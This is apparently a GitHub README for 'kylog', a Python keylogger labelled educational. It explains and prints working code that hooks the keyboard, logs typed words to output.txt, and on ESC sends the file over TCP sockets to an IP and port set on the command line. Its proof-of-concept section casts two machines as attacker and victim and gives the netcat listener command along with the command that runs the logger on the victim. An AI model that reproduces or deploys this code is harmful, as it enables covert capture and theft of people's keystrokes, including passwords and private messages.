


<div align="center">
    
</div>

</br>

<div align="center">
    <h4>Simple and lightweight keylogger made with Python</h4>
</div>

This project is a **simple keylogger written in python for educational purposes**. It captures keystrokes from the keyboard, saves the captured words into a text file (`output.txt`), and optionally sends the file to a remote machine over network.

## Features

### Capture printable keystrokes

The program uses the `keyboard` library to detect and record any printable characters typed by the user. Special keys like `Shift` and `Ctrl` are ignored, focusing only on characters that form meaningful input.

### Detects and processes words

When the user types, characters are accumulated into a `word` variable. Once the space key is pressed, the word is saved into a text file (`output.txt`) and the variable is reset, allowing the program to efficiently handle word-by-word input.

### Stores data in a file

The captured words are stored in a file named `output.txt`. This file is created in the same directory as the script if it does not already exist. Data is appended to the file to ensure that no information is lost between sessions.

### Sends capture data to a remote machine

Upon termination of the program (by pressing `ESC`), the `output.txt` file is transmitted to a specified remote machine using TCP sockets. The IP address and port of the receiving machine can be dynamically set using command-line arguments.

### Customizable IP address and port

The program accepts the IP address and port of the remote machine as command-line arguments, making it adaptable to different network configurations and scenarios.

## Setup

### Clone the repository

Clone this repository to your local machine:

```bash
git clone https://github.com/sporestudio/kylog
cd kylog
```

### Install requirements

#### Create virtual environment

Create a virtual environment to install the requirements for the project (optional but recommended):

```bash
python3 -m venv kylog
source kylog/bin/activate
```

Install the requirements:

```bash
pip install -r requirements.txt
```

## POC

<div align="center">
    
</div>

|      Machine      |       IP        |
|-------------------|-----------------|
|  Atacker Machine  |   192.168.1.97  |
|  Victim Machine   |   192.168.1.66  |


In this proof of concept we have two machines, an attacker machine and a victim machine (infected with kylog), so we will run the keylogger on the victim machine, we will capture the keystrokes and when we press ESC, we will send these keystrokes by TCP to the attacker machine. 

### Setup the attacker machine



On the machine that will recive the captured data:

- Start listening for incoming connections with `netcat`:

```bash
nc -lvnp <port>
```

- Example:

```bash
nc -lvnp 4444
```

### Run the keylogger in the victim machine



On the victim machine running the keylogger, execute the script with the IP address and port of the receiver machine:

```bash
python3 src/kylog.py <ip_address> <port>
```

- Example:

In our case, we want to send the `output.txt` file to **192.168.1.97** address via *4444* port.

```bash
python3 src/kylog.py 192.168.1.97 4444
```

</br>

### Stop the keylogger

To stop the keylogger, press the `ESC` key. This will trigger the script to send the captured `output.txt` file to the receiver machine using the IP and port specified earlier.

## Code explanation

### Key components

#### Keystroke capture

The program captures keystrokes using the `keyboard` library. It accumulates characters into a `word` variable until the space key is pressed.

```python
word = ""

def reset_word():
    global word
    word = ""

def save_word():
    with open("output.txt", "a") as file:
        file.write(word + "\n")
    print(f'Word saved: {green}{word}{reset}')
    reset_word()

def press_key(keystroke):
    global word

    if keystroke.event_type == keyboard.KEY_DOWN:
        if keystroke.name == 'space':
            save_word()
        elif len(keystroke.name) == 1 and keystroke.name.isprintable():
            word += keystroke.name

keyboard.hook(press_key)
```

#### Data storage

Each word captured is appended to a file named `output.txt`.

```python
def save_word():
    with open("output.txt", "a") as file:
        file.write(word + "\n")
    print(f'Word saved: {green}{word}{reset}')
    reset_word()
```

#### File transmission

The program sends the `output.txt` file to a remote IP and port using TCP sockets:

```python
def send_file_via_sockets(file, ip_address, port):
    try:
        with open(file ,'rb') as file:
            content = file.read()

        with socket.socket(socket.AF_INET,socket.SOCK_STREAM) as s:
            s.connect((ip_address, port))
            s.sendall(content)
            os.remove("output.txt")
            sys.exit()

    except Exception as e:
        print(f'Error to send file: {e}')
```

#### Command-line arguments

The program dynamically accepts the destination IP and port as arguments.

```python
if __name__ == '__main__':
    parser = argparse.ArgumentParser(description='Simple and Lightweight keylogger in Python.')
    parser.add_argument('ip', type=str, help='Destination IP Address')
    parser.add_argument('port', type=int, help='Destination port')
    args = parser.parse_args()

    destination_ip_address = args.ip
    destination_port = args.port
    file_to_send = 'output.txt'
```

## License

This project is under <a href="https://github.com/sporestudio/dns-server/blob/main/LICENSE">GNU General Public License v3.0</a>


## Contributions

Contributions are welcome! Feel free to fork the repository, submit issues, or create pull requests.


## Author

Created by <a href="https://github.com/sporestudio">sporestudio</a>.